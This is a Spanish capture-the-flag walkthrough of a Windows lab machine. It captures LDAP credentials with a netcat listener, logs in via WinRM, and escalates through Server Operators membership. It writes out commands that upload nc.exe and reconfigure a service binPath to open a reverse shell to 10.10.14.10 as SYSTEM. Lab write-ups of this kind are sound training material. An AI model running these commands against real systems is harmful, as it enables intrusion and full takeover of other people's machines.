 ## Summary

Tags: #Windows #SMB #WinRM #ReverShell #Netcat #NetUser  #Nmap 

- IP -> 
- Ports -> TCP (53,80,88,135,139,389,445,5985), UDP (idk)
- OS ->  Windows 
- Services & Applications
    - 80  -> HTTP microsoft IIS/10.0
    - 445 -> SMB
    - 5985 -> WinRM


## Launchpad

-   **Launchpad**: [https://launchpad.net/ubuntu](https://launchpad.net/ubuntu)

## Recon
Windows IIS (10.0)

```bash
❯ whatweb ❮http://IP❯                  # Nos dara una breve descripcion del gestor de contenidos del puerto 80

	# Mirar la jQuery
	# Servidor Web
```

```bash
❯ nc -nlvp 389 
```
Nos ponemos a explorar la pagina web y encontramos que podiamos hacer que la pagina al momento de hacerle Update, esta apuntara a nuestra IP y asi con nc ver el contenido y nos devuelve un User y una Passwd

```bash
❯ smbclient -L ❮IP❯                   # Lista recursos compartidos a nivel de red haciendo uso de un null sesion (sin credencial alguna)
❯ smbclient -L ❮IP❯ -N                # Lista recursos compartidos a nivel de red haciendo uso de un null sesion (sin credencial alguna)
```

```bash
❯ smbmap -H ❮IP❯                      # Herramienta elternativa para ver si nos reporta algo mas y nos reporta los permisos (WRITE, READ)
❯ smbmap -H ❮IP❯ -u 'null'            # Herramienta elternativa para ver si nos reporta algo mas haciendo uso de un null sesion (sin credencial alguna)
```

```bash
❯ crackmapexec smb ❮IP❯ -u ❮‘user’❯ -p ❮‘password’❯      # Para el servicio 445/tcp smb abierto podemos utilizar el siguiente comando para saber si tenemos credenciales validas, por lo que si nos muestra un (+) quiere decir que si son validas, ademas de que nos da informacion de lo que hay en ese servico (nombre, Windows 10.0, dominio, signing=true)(u=user, p=password) Este comando es usado para validar aunque tenga mas aplicaciones.

❯ crackmapexec winrm ❮IP❯ -u ❮‘user’❯ -p ❮‘password’❯    # Despues de saber que las credenciales son validas con crackmapexec, podemos utilizar el puerto de winrm para saber si podemos entrar, pero antes debemos saber si el usuario esta en el grupo Remote management users, para saber si pertenece nos debe poner un (Pwn3d!) y asi podernos autenticar.

# Podemos usar evil-winrm para conectarnos, si tiene el puerto 5985 abierto
```

## User
Ahora podemos usar el puerto 5985 para poder ingresar con WINRM
```bash
❯ evil-winrm -i ❮IP❯ -u ❮‘user’❯ -p ❮‘password’❯         # Nos podemos conectar ya al servicio de administracion remota de Windows
```
Una vez adentro buscamos la flag del usuario user.txt en Desktop

Ahora nos disponemos a probar comandos para ver como poder escalar privilegios en la maquina Windows
```bash
❯  whoami /priv                              # Miramos los privilegios que tenemos   
	
	# SetInpersonatePrivilege = En el cual podriamos usar RottenPotato o  JuicyPotato 
	# SetLoadPrivilege = Para usar el recurso de Tarlogic

❯  whoami /all                               # Miramos todos los privilegios
```

```bash
❯ systeminfo                                 # Nos copiamos todo lo que nos salga con ese comando y usaremos un programa llamado '' para deterctar vulnerabilidades en un equipo Windows, todo desde nuestra maquina Linux con el archivo que hemos creado con ese informacion obtenida.
```

```bash
❯ net user <USER>                            # Nos da detalles de nuestro usuario y vemos a que grupos pertenecemos. 


# Server Operators = Es un grupo en el que podemos administrar controladores de dominio, loggearse a un servicio interactivo, asi como crear, borrar recursos compartidos en la red, iniciar, parar servicios, back up, restaurar archivos, formatear el disco duro de la computadora y apagarla. Si pertenecemos a este grupo podemos cargar a la maquina victima Netcat.exe.
```

Ahora buscamos en Google la parte de Server Operators para ver que significa y que podemos hacer.
Los miembros de **Server Operators** pueden administrar el domain controller. Pueden hacer las siguientes acciones, iniciar sesión en un servidor de forma interactiva, crear y eliminar recursos compartidos de red, iniciar y detener servicios, realizar copias de seguridad y restaurar archivos, formatear la unidad de disco duro de la computadora y apagar la computadora. Este grupo no puede ser renombrado, eliminado o removido.

Por lo que nos ponemos a utilizar Netcat para poder entrar 
Buscamos el archivo nc.exe en la maquina atacante para despues subirlo a la maquina victima en el directorio Temp, ya que en ese directorio hay permisos de lectura y escritura.

```bash
❯ upload /home/omar/Documet/HTB/nc.exe       # Subimos el archivo Netcat a la maquina victima, colocando la ruta absoluta de la maquina de atacante en donde se encuentra
```

Despues podemos crear una revershell y ver si podemos crear un servicio 
```bash
❯ sc.exe create reverse binPath=”C:\\Users\\svc-printer\\Documents\\nc.exe -e cmd 10.10.14.10 443” # Le decimos al equipo victima que cuando arranque el servicio queremos que ejecute el netcat y nos ejecute una revershell contra el nuestro equipo por el puerto 443. (create=creamos el servicio, reverse=nombre del servicio) 

# Si no nos deja, hacemos lo siguiente:
❯ Services                            # Para ver los servicios que estan corriendo en Windows y asi ver si podemos cambiarle el binPath a uno, esto dependiendo si nos encontramos en el grupo de 'Server Operators' y asi podernos montar una revershell con algun servicio con sc.exe
❯ sc.exe config VMTools binPath=”C:\\Users\\svc-printer\\Documents\\nc.exe -e cmd 10.10.14.10 443” # Colocaremos un servicio que nos deje cambiar su binPath, el servicio va despues de config. (Nos saldra success)
```

## Root

```bash
❯ nc -nlvp 443 
```

Despues paramos el servicio que hemos reconfigurado y lo volvemos a iniciar para que se ejecute el netcat.
```bash
❯ sc.exe stop VMTools              # Paramos el servicio
❯ sc.exe start VMTools             # Iniciamos el servicio
```

Nos damos cuenta que ya somo **NT Autority System** y tenemos los privilegios de administrador, por lo que nos dirigimos a buscar la flag roo.txt

